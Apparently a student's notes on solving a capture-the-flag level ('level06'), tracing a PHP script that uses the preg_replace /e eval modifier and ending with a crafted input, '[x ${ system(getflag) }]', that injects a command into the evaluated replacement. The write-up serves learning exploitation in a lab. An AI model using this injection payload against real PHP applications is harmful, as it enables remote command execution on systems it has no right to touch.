 # useful links
* https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier
* https://regex101.com/r/iU2cE2/1
* https://www-ppti.ufr-info-p6.jussieu.fr/doc-online/PHP/php7/php-chunked-xhtml/reference.pcre.pattern.modifiers.html#reference.pcre.pattern.modifiers.eval
* https://www.php.net/manual/fr/language.operators.execution.php

# cmd
* ``ls``
    * 2 files : a binary level06 and level06.php
* ``./level06``
    * ``PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4``
* try 1 :
    * ``./level06 level06.php``
        * see try_1.txt
* try 2 :
    * dogbolt to decompile level06
        * see level06.c
* try 3 :
    * ``cat level06.php``
        * see level06.php
    * on remarque que dans try_1.txt, il y a plusieurs fois le contenu de level06.php
        * see analyse_try_1.txt -> bouh correspond aux endroit ou on trouve le contenu de level06.php
* try 4 : in level06.php
    * l10 : cette ligne est la plus interessante, il faudrait trouver une regex reverse qui une fois passee dans cette commande lance getflag
* try 5 :
    * ``echo "[x \${ system(getflag) }]" > /tmp/exploit06``
        * ``system`` is a php cmd to execute bash cmd
        * we wanted ``${system(getflag) }`` in y
        * we added ``x \`` to be take in count by l10 and put in ``[]`` to had ``()`` 
    * ``./level06 /tmp/exploit06``
